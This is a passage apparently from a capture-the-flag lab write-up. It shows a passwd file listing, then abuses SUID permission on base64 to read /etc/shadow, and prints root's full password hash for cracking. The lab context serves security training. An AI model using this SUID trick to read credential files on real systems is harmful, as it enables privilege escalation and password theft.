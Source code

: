 ```
radvd:x:75:75:radvd user:/:/sbin/nologin
chrony:x:992:987::/var/lib/chrony:/sbin/nologin
saned:x:991:986:SANE scanner daemon user:/usr/share/sane:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
qemu:x:107:107:qemu user:/:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sssd:x:990:984:User for sssd:/:/sbin/nologin
usbmuxd:x:113:113:usbmuxd user:/:/sbin/nologin
geoclue:x:989:983:User for geoclue:/var/lib/geoclue:/sbin/nologin
gdm:x:42:42::/var/lib/gdm:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
gnome-initial-setup:x:988:982::/run/gnome-initial-setup/:/sbin/nologin
pcp:x:987:981:Performance Co-Pilot:/var/lib/pcp:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
avahi:x:70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
oprofile:x:16:16:Special user account to be used by OProfile:/var/lib/oprofile:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
leonard:x:1000:1000:leonard:/home/leonard:/bin/bash
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
missy:x:1001:1001::/home/missy:/bin/bash
```

## `shadow` File Password Cracking 

By taking advantage of SUID permission on `base64` we can check contents of `/etc/shadow`.
`[leonard@ip-10-10-17-216 ~]$ base64 "/etc/shadow" | base64 --decode`
```
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
pegasus:!!:18785::::::
systemd-network:!!:18785::::::
dbus:!!:18785::::::
polkitd:!!:18785::::::
colord:!!:18785::::::
unbound:!!:18785::::::
libstoragemgmt:!!:18785::::::
saslauth:!!:18785::::::
rpc:!!:18785:0:99999:7:::
gluster:!!:18785::::::
abrt:!!:18785::::::
postfix:!!:18785::::::
setroubleshoot:!!:18785::::::
rtkit:!!:18785::::::
pulse:!!:18785::::::
radvd:!!:18785::::::
chrony:!!:18785::::::
saned:!!:18785::::::
```